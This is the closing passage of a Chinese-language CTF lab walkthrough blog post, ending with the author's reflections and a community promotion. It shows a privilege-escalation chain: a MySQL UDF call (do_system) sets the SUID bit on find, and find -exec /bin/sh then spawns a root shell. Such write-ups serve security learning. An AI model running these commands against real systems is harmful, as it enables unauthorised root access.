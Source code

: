 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniaKxj0p0ZGpLmD8gGIu2iaJj25eH2Cic8ic09QKyGdic05NYibmprCkbnUspA/640?wx_fmt=png)

调用 do_system 函数来给 find 命令所有者的 suid 权限，使其可以执行 root 命令

命令：select * from mysql.func;

命令：select do_system(‘chmod u+s /usr/bin/find’);

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniayF44bI0sX1K3RfR0766pcqTiaAibSibb0iazYUhn1RzOKaseiasbATibrZZw/640?wx_fmt=png)

执行 find 命令

使用 find 执行 shell

命令：find / -exec '/bin/sh ’ \ ;

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniarYm9pSNo4IzBJBwcEF3yLOpiaqJO2oQFic2Eib1ME77l1IfQI3iczQNJYw/640?wx_fmt=png)

成功提权查看 flag4.txt

经过上手演示这靶机不是中等水平..... 我花了两天时间利用各种时间学习，写了这篇文章，开始很多不懂，没思路，都是看各国渗透专家的方式方法，一步一步慢慢学习才写出来的，希望能帮助大家，也是巩固加深我的印象，如果非常喜欢就坚持下去！！！

由于我们已经成功得到 root 权限 & 找到 flag.txt，因此完成了 CTF 靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/D8K0hdvKJ0HXTG7lbicJpbKFahh3c1OHvyubVdcSpTNpsiam24fQnUoMlMTbT0NNSBSpicaCmf5nw7byndwJUpNJg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniaIlQnxBnPxa95sTicYQ6Fg7uIPxpK9VNNibnv4qjxpcJbWFnjbStaSUVA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/HdnE6icjq3eZPJygSy2mR5Ax3mF0zbepD8wmYU9I1bm8ib991icToQ8wVaweOEGRHbsxe2wMVFN8GZ1Egzbict2RHA/640?wx_fmt=png)

星球每月都有网络安全书籍赠送、各种渗透干货分享、小伙伴们深入交流渗透，一起成长学习！

![](https://mmbiz.qpic.cn/mmbiz_png/xsbHqF7AIDaKRb2LB6ykjvMB9uh7oLtyPpVdwZZW8a1eSW7CibZfDmCmT7UXWNnJMsogxXyreyY9AyR1WvNicsYg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniaAPyzQq8Y6flPMewUURAPYJVN8WTAl8BMqBiasuMSf7MKPMnlYJFAwPg/640?wx_fmt=png)